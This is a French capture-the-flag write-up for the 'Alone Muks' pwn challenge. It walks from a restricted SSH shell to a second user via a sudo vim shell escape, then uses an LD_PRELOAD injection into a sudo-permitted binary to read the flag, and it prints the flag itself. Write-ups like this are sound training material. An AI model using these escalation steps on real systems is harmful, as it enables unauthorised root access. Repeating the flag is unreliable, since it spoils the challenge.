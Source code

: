 # Alone Muks

[Lien](https://ctf.challengecybersec.fr/7a144cdc500b28e80cf760d60aca2ed3/challenge-detail.php?chall=23)

Points : 100

Category : Pwn


## Description

Lors de votre récent séjour à Evil Country, vous êtes parvenu à brancher un dispositif sur le camion effectuant la livraison. Il faut maintenant trouver une faille sur le système pour pouvoir prendre le contrôle du camion autonome de la marque Lates et le rediriger vers un point d'extraction. Un agent a posé un dispositif nous permettant d'accéder au système de divertissement du véhicule. A partir de ce dernier, remontez jusqu'au système de navigation.
Connectez-vous en SSH au camion

Identifiants: user:user

Le serveur est réinitialisé périodiquement

Port : 5004

Le flag est de la forme DGSESIEE{hash}


## Accès

```bash
ssh -p 5004 user@challengecybersec.fr
```


## Solution

### étape 1

Sortir du script avec `Ctrl-C`

```bash
python -c import os; os.system("/bin/bash")
```

Taper `sudo -l` pour savoir à quoi on a droit:
```
Matching Defaults entries for user on b43e27468d7b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD

User user may run the following commands on b43e27468d7b:
    (globalSystem) NOPASSWD: /usr/bin/vim
```

### étape 2

```bash
/usr/bin/sudo -u globalSystem vim
```
puis `:!/bin/bash`


Taper `sudo -l` pour savoir à quoi on a droit:
```
Matching Defaults entries for globalSystem on b43e27468d7b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD

User globalSystem may run the following commands on b43e27468d7b:
    (navigationSystem) NOPASSWD: /usr/bin/update
```

### étape 3

```bash
sudo -u navigationSystem /usr/bin/update AloneIsTheBest
```

Mais `/usr/bin/update` ne fait rien de spécial... son reverse permet juste de trouver un mot de passe inutile.

On va utiliser le LD_PRELOAD pour injecter du code dans le binaire, à son insu.

```bash
cc -shared -fPIC -o /tmp/toto.so preload.c
sudo LD_PRELOAD=/tmp/toto.so -u navigationSystem /usr/bin/update
```

Et on obtient le contenu du fichier `flag.txt`.


## Flag

`DGSESIEE{44adfb64ff382f6433eeb03ed829afe0}`
